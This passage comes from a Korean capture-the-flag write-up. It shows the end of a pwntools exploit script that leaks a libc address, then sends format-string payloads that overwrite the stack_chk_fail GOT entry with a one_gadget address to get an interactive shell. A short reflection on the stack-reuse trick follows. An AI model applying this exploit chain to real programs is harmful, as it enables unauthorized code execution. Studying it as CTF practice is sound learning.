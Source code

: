     puts_libc=u64(p.recvuntil('hello')[-12:-6]+"\x00\x00")
    libc_base=puts_libc-libc.symbols['puts']
    log.info(hex(libc_base))
    
    payload44 = "%4196192c%8$ln"+"AA"
    payload44 += p64(stack_chk_got)
    payload44 += "A"*(0x19-len(payload44))
    p.send(payload44)
    
    one_gadget=libc_base+0x45216
    payload5 = p64(one_gadget)
    payload5 += "A"*(0x19-len(payload5))
    pause()
    p.send(payload5)
    
    
    payload6 = "%4196394c%8$ln"+"AA"
    payload6 += p64(stack_chk_got)
    payload6 += "A"*(0x19-len(payload6))
    pause()
    p.send(payload6)
    
    
    p.interactive()





### 4. 몰랐던 개념

---

문제를 해결하기 위해 알아야하는 새로운 지식을 없었지만, 스택을 재사용하기 위해 프롤로그 중반으로 ret시키는 방법이 참신했던 문제이다.

비록 롸업을 보면서 해결하긴 했지만, 다 이해하면서 진행했기때문에 나름 보람찼다.